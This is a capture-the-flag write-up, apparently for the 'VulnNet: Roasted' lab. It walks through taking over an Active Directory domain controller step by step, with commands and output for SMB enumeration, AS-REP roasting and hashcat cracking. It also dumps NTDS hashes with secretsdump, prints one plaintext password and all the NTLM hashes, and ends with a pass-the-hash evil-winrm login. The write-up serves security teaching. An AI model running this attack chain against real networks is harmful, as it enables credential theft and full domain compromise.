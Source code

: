 # VulnNet: Roasted

## Enumeration using nmap
<pre>nmap -sV -sC 10.10.227.72 -Pn

Not shown: 989 filtered tcp ports (no-response)
PORT     STATE SERVICE       VERSION
53/tcp   open  domain        Simple DNS Plus
88/tcp   open  kerberos-sec  Microsoft Windows Kerberos (server time: 2023-09-21 20:26:06Z)
135/tcp  open  msrpc         Microsoft Windows RPC
139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: vulnnet-rst.local0., Site: Default-First-Site-Name)
445/tcp  open  microsoft-ds?
464/tcp  open  kpasswd5?
593/tcp  open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp  open  tcpwrapped
3268/tcp open  ldap          Microsoft Windows Active Directory LDAP (Domain: vulnnet-rst.local0., Site: Default-First-Site-Name)
3269/tcp open  tcpwrapped
Service Info: Host: WIN-2BO8M1OE1M1; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-time: 
|   date: 2023-09-21T20:26:08
|_  start_date: N/A
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled and required

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 52.99 seconds</pre>

- Port 139 + 445 is open

## Enum4Linux
<pre>enum4linux 10.10.227.72  
Domain Name:VULNNET-RST                                                                                                                           Domain Sid: S-1-5-21-1589833671-435344116-4136949213</pre>

## SMB Enumeration
- Port 139 + 445 is open
- Use `smbmap` to enumerate shares

<pre>smbmap -H 10.10.227.72 -u anonymous

    ________  ___      ___  _______   ___      ___       __         _______
   /"       )|"  \    /"  ||   _  "\ |"  \    /"  |     /""\       |   __ "\
  (:   \___/  \   \  //   |(. |_)  :) \   \  //   |    /    \      (. |__) :)
   \___  \    /\  \/.    ||:     \/   /\   \/.    |   /' /\  \     |:  ____/
    __/  \   |: \.        |(|  _  \  |: \.        |  //  __'  \    (|  /
   /" \   :) |.  \    /:  ||: |_)  :)|.  \    /:  | /   /  \   \  /|__/ \
  (_______/  |___|\__/|___|(_______/ |___|\__/|___|(___/    \___)(_______)
 -----------------------------------------------------------------------------
     SMBMap - Samba Share Enumerator | Shawn Evans - ShawnDEvans@gmail.com
                     https://github.com/ShawnDEvans/smbmap

[*] Detected 1 hosts serving SMB
[*] Established 1 SMB session(s)                                
                                                                                                    
[+] IP: 10.10.227.72:445        Name: 10.10.227.72              Status: Guest session   
        Disk                                                    Permissions     Comment
        ----                                                    -----------     -------
        ADMIN$                                                  NO ACCESS       Remote Admin
        C$                                                      NO ACCESS       Default share
        IPC$                                                    READ ONLY       Remote IPC
        NETLOGON                                                NO ACCESS       Logon server share 
        SYSVOL                                                  NO ACCESS       Logon server share 
        VulnNet-Business-Anonymous                              READ ONLY       VulnNet Business Sharing
        VulnNet-Enterprise-Anonymous                            READ ONLY       VulnNet Enterprise Sharing</pre>

- Read access to the IPC$ share as `anonymous`
- We are able to list domain users using `lookupsid.py`

## lookupsid.py
- Brute forcing of Windows SIDs to identify users.groups on the target

https://learn.microsoft.com/en-us/windows-server/identity/ad-ds/manage/understand-security-identifiers  

<pre>sudo lookupsid.py anonymous@10.10.227.72

[sudo] password for kali: 
Impacket v0.9.19 - Copyright 2019 SecureAuth Corporation

Password:
[*] Brute forcing SIDs at 10.10.227.72
[*] StringBinding ncacn_np:10.10.227.72[\pipe\lsarpc]
[*] Domain SID is: S-1-5-21-1589833671-435344116-4136949213
498: VULNNET-RST\Enterprise Read-only Domain Controllers (SidTypeGroup)
500: VULNNET-RST\Administrator (SidTypeUser)
501: VULNNET-RST\Guest (SidTypeUser)
502: VULNNET-RST\krbtgt (SidTypeUser)
512: VULNNET-RST\Domain Admins (SidTypeGroup)
513: VULNNET-RST\Domain Users (SidTypeGroup)
514: VULNNET-RST\Domain Guests (SidTypeGroup)
515: VULNNET-RST\Domain Computers (SidTypeGroup)
516: VULNNET-RST\Domain Controllers (SidTypeGroup)
517: VULNNET-RST\Cert Publishers (SidTypeAlias)
518: VULNNET-RST\Schema Admins (SidTypeGroup)
519: VULNNET-RST\Enterprise Admins (SidTypeGroup)
520: VULNNET-RST\Group Policy Creator Owners (SidTypeGroup)
521: VULNNET-RST\Read-only Domain Controllers (SidTypeGroup)
522: VULNNET-RST\Cloneable Domain Controllers (SidTypeGroup)
525: VULNNET-RST\Protected Users (SidTypeGroup)
526: VULNNET-RST\Key Admins (SidTypeGroup)
527: VULNNET-RST\Enterprise Key Admins (SidTypeGroup)
553: VULNNET-RST\RAS and IAS Servers (SidTypeAlias)
571: VULNNET-RST\Allowed RODC Password Replication Group (SidTypeAlias)
572: VULNNET-RST\Denied RODC Password Replication Group (SidTypeAlias)
1000: VULNNET-RST\WIN-2BO8M1OE1M1$ (SidTypeUser)
1101: VULNNET-RST\DnsAdmins (SidTypeAlias)
1102: VULNNET-RST\DnsUpdateProxy (SidTypeGroup)
1104: VULNNET-RST\enterprise-core-vn (SidTypeUser)
1105: VULNNET-RST\a-whitehat (SidTypeUser)
1109: VULNNET-RST\t-skid (SidTypeUser)
1110: VULNNET-RST\j-goldenhand (SidTypeUser)
1111: VULNNET-RST\j-leet (SidTypeUser)</pre>

We have discovered the following user accounts:
Administrator  
Guest  
krbtgt  
WIN-2BO8M1OE1M1$  
enterprise-core-vn  
a-whitehat  
t-skid  
j-goldenhand  
j-leet  

### AS-REP Roasting
AS-REP Roasting occurs when a user account has the privilege "Does not require pre-authentication" in Active Directory.  

This means that the account does not need to provide identification before requesting a Kerberos ticket on the user account.

- Use GetNPUsers.py
- Query AS-REP Roastable accounts from Key Distribution Centre using usernames we discovered stored in users.txt  

<pre>GetNPUsers.py VULNNET-RST.local/ -no-pass -usersfile /home/kali/Documents/VulnNet_Roast/users.txt -dc-ip 10.10.227.72
/usr/share/offsec-awae-wheels/pyOpenSSL-19.1.0-py2.py3-none-any.whl/OpenSSL/crypto.py:12: CryptographyDeprecationWarning: Python 2 is no longer supported by the Python core team. Support for it is now deprecated in cryptography, and will be removed in the next release.
Impacket v0.9.19 - Copyright 2019 SecureAuth Corporation

[-] User Administrator doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User Guest doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] Kerberos SessionError: KDC_ERR_CLIENT_REVOKED(Clients credentials have been revoked)
[-] User WIN-2BO8M1OE1M1$ doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User enterprise-core-vn doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User a-whitehat doesn't have UF_DONT_REQUIRE_PREAUTH set
$krb5asrep$23$t-skid@VULNNET-RST.LOCAL:8a24fbdc2cc549621c14d12a525046e4$74c507233131c5f1c3e8cb7ff409ebaac2abe9c3aa1b9bfb9e652e0bfe1a9580c731a68d652b4ffa2b27211a9a2d8db205fa5fac1690e1d3cf9752cff2e93e21e79ae056c22cafe1d06fa065a4009424e05a60605ed2de250565265ea6c60c4898963f5ab4454c5b5959a048fc56e4be25d6627f46d3bdec2d2aa49de9d3d0781f30d57855f6aa23eb733c59c5d824bb6b546e938a865964349d3aab414ed1a6f21dd68ceab6e7e81c75695bb5954dbfb901459b4ee839775f92c6f48a9fb92c78feb0a1e96b7dba8dda09d45b705aaadd4009d51bbb6a762eae59e8bc01147c84f9894e03bfbaafbf317170fbb249052be02aefa392
[-] User j-goldenhand doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User j-leet doesn't have UF_DONT_REQUIRE_PREAUTH set</pre>

Discovered a hash for user account `t-skid`  

Hash is displayed as `Kerberos 5, etype 23, AS-REP`  

- Crack the hash using Hashcat
<pre>hashcat -m 18200 /home/kali/Documents/VulnNet_Roast/TGT_ticket.txt /usr/share/wordlists/rockyou.txt</pre>

We now have cracked the password for user account `t-skid`

## Enumerate + Connect to SMB using t-skid account
- Enumerate the shares we can access
<pre>smbmap -H 10.10.227.72 -u t-skid -p '*****'</pre>

- As the Anonymous account earlier, we couldn't access NETLOGON
- Connect to NETLOGON share

<pre>smbclient \\\\10.10.227.72\\NETLOGON -U t-skid
Password for [WORKGROUP\t-skid]:
Try "help" to get a list of possible commands.
smb: \> ls
  .                                   D        0  Tue Mar 16 19:15:49 2021
  ..                                  D        0  Tue Mar 16 19:15:49 2021
  ResetPassword.vbs                   A     2821  Tue Mar 16 19:18:14 2021

smb: \> get ResetPassword.vbs
getting file \ResetPassword.vbs of size 2821 as ResetPassword.vbs (1.6 KiloBytes/sec) (average 1.6 KiloBytes/sec)</pre>

- Discovered credentials in the .vbs script

strUserNTName = "a-whitehat"  
strPassword = "*********"

## Dump NTDS.dit
- Check if user `a-whitehat` has the privilege to dump hashes 

<pre>secretsdump.py vulnnet-rst/a-whitehat:'bNdKVkjv3RR9ht'@10.10.227.72

[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] Using the DRSUAPI method to get NTDS.DIT secrets
Administrator:500:aad3b435b51404eeaad3b435b51404ee:c2597747aa5e43022a3a3049a3c3b09d:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
krbtgt:502:aad3b435b51404eeaad3b435b51404ee:7633f01273fc92450b429d6067d1ca32:::
vulnnet-rst.local\enterprise-core-vn:1104:aad3b435b51404eeaad3b435b51404ee:8752ed9e26e6823754dce673de76ddaf:::
vulnnet-rst.local\a-whitehat:1105:aad3b435b51404eeaad3b435b51404ee:1bd408897141aa076d62e9bfc1a5956b:::
vulnnet-rst.local\t-skid:1109:aad3b435b51404eeaad3b435b51404ee:49840e8a32937578f8c55fdca55ac60b:::
vulnnet-rst.local\j-goldenhand:1110:aad3b435b51404eeaad3b435b51404ee:1b1565ec2b57b756b912b5dc36bc272a:::
vulnnet-rst.local\j-leet:1111:aad3b435b51404eeaad3b435b51404ee:605e5542d42ea181adeca1471027e022:::
</pre>

## Evil-WinRM
- Ultimate shell for hacking/pentesting

<pre>evil-winrm -i 10.10.227.72 -u Administrator -H c2597747aa5e43022a3a3049a3c3b09d</pre>
